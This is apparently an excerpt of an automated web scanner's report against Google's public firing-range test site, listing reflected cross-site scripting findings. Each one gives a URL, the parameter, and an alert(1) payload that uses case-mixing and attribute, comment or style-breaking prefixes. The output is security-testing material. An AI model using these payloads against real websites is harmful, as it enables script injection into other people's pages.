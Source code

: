   * Evidence: `'><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_unquoted%3Fq=%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `><scrIpt>alert(1);</scRipt>`
  * Evidence: `><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body/400%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body/401%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body/403%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body/404%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body/500%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/body_comment%3Fq=--%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253C%2521--
  * Method: `GET`
  * Parameter: `q`
  * Attack: `--><scrIpt>alert(1);</scRipt><!--`
  * Evidence: `--><scrIpt>alert(1);</scRipt><!--`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/css_style%3Fq=%253C%252Fstyle%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Cstyle%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</style><scrIpt>alert(1);</scRipt><style>`
  * Evidence: `</style><scrIpt>alert(1);</scRipt><style>`